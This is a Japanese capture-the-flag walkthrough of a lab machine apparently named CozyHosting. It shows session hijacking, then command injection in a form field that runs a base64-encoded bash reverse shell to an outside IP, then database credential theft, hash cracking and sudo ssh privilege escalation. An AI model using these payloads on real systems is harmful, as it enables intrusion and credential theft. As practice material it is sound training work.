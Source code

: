 
#### nmap
![](/images/20230908201102.png)

/etc/hostsに「cozyhosting」を登録

![](/images/20230908201244.png)
webにアクセスしてみる
![](/images/20230908201411.png)

ログインページにがあるがクレデンシャルがわからない
![](/images/20230908201634.png)

dirsearchでディレクトリを検索

![](/images/20230908201749.png)

「/actuator/sessions」にアクセスするとcookieの値がでるのでウェブ開発ツールのストレージから値を変更してユーザー名とパスワードを適当に入れるとするとログインできる
![](/images/20230908202427.png)
![](/images/20230908202842.png)

「Hostname」と「Username」を適当に入れてBurpで受信してみる
![](/images/20230908203142.png)


sshの文字が見える
試しにUsernameを空で送信してみる

![](/images/20230908203424.png)

sshのエラーが帰ってきている
コマンドインジェクションの脆弱性の可能性がある

```shell
;echo $ { IFS } "[ PAYLOAD ]" | base64 $ { IFS }-d | bash;
```

「Username」に
```shell
/bin/bash -i >& /dev/tcp/10.10.14.11/9001 0>&1
```
をbase64に変換して送るとリバースシェルが獲れる
```shell
;echo$(IFS)"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExLzkwMDEgMD4mMQ=="|base64$(IFS)-d|bash
```

![](/images/20230908204741.png)
>IFSは空白やタブを意味する

python3でシェルを安定化する
![](/images/20230908205054.png)

ホームディレクトリに「cloudhosting-0.0.1.jar」ファイルがあるのでローカルにダウンロードする

![](/images/20230908205601.png)

「.jar」はzipと同じ圧縮形式なので「unzip」で解凍する
![](/images/20230908205727.png)

/etc/passwdから「josh」とゆうユーザーが要ることが分かる
![](/images/20230908210045.png)

解凍してできた物の中にposgresqlのクレデンシャルがある
「BOOT-INF/classes/application.properties」
![](/images/20230908210514.png)

ターゲット側でpostgresqlに接続する
**psql "postgresql:// $ DB_USER:$ DB_PWD @ $ DB_SERVER / $ DB_NAME"**

```shell
psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"
```

「\\list」ですべてのデータベースを表示
![](/images/20230908211122.png)

「\\c cozyhosting」でデータベースの切り替え
「\\d」ですべてのテーブル表示
![](/images/20230908211503.png)

SELECT文でテーブルの中を表示
![](/images/20230908211619.png)

ハッシュが取得できたのでjohnで解析
![](/images/20230908211848.png)
Username:josh
Password:manchesterunited

取得したクレデンシャルでSSH接続を実施
![](/images/20230908212105.png)

#### 特権昇格
「sudo -l」で確認すると
![](/images/20230908212245.png)

sshで特権昇格できそうなのでGTFOBINで調べる

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](/images/20230908212530.png)
